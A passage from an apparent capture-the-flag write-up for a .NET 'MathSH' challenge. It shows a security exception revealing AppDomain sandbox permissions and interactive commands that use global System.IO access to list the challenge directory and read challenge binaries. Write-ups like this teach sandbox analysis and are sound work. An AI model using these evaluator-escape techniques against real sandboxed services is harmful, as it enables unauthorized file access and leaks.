```
<IPermission class="System.Security.Permissions.FileIOPermission, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
version="1"
Read="c:\ctf\flag.txt"/>

The demand was for:
<IPermission class="System.Security.Permissions.FileIOPermission, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
version="1"
Read="c:\ctf\flag.txt"/>

The granted set of the failing assembly was:
<PermissionSet class="System.Security.PermissionSet"
version="1">
<IPermission class="System.Security.Permissions.FileIOPermission, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
version="1"
Read="C:\ctf\challenge\"
PathDiscovery="C:\ctf\challenge\"/>
<IPermission class="System.Security.Permissions.SecurityPermission, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
version="1"
Flags="Execution"/>
</PermissionSet>

The assembly or AppDomain that failed was:
SlimlineJScript, Version=1.3.8.0, Culture=neutral, PublicKeyToken=8591fe505af48527
The method that caused the failure was:
Void OnEvaluateFunction(System.String, SlimlineJScript.FunctionArgs)
The Zone of the assembly that failed was:
Internet
The Url of the assembly that failed was:
file:///C:/ctf/challenge/SlimlineJScript.DLL
```
Very interesting! We can learn from here that:
* This is C# code.
* We are running in an [AppDomain](https://docs.microsoft.com/en-us/dotnet/api/system.appdomain?view=netcore-3.1), which is a way to sandbox code in C#.NET.
* There are specific permissions to the AppDomain, restricting us to the `C:\ctf\challenge` directory.
* We have access to list the *challenge* directory and this is where the executing DLL sits.
## Leaking the Challenge Files
The permissions we are given let us list the *challenge* directory and get files from it:
```
MathSH> __global__.System.IO.Directory.GetFiles("C:\\ctf\\challenge")
Input string was not in a correct format.
```
That's because the return value is an array of strings... Time to return to `memset()` - we know we can store strings (as keys) and display them later with `memlist()`. `System.String` provides us with the static function `System.String Join(System.String, System.String[])` to our benefit:
```
MathSH> memset(__global__.System.String.Join("\n", __global__.System.IO.Directory.GetFiles("C:\\ctf\\challenge")), 1)
MathSH> memlist()
C:\ctf\challenge\Antlr3.Runtime.dll
C:\ctf\challenge\GoogleCTF2020.exe
C:\ctf\challenge\JScriptRunner.dll
C:\ctf\challenge\SlimlineJScript.dll = 1
```
Leaking the files is easy using the `__global__.System.IO.File.ReadAllBytes` function:
```
MathSH> __global__.System.IO.File.ReadAllBytes("C:\\ctf\\challenge\\GoogleCTF2020.exe")
77
```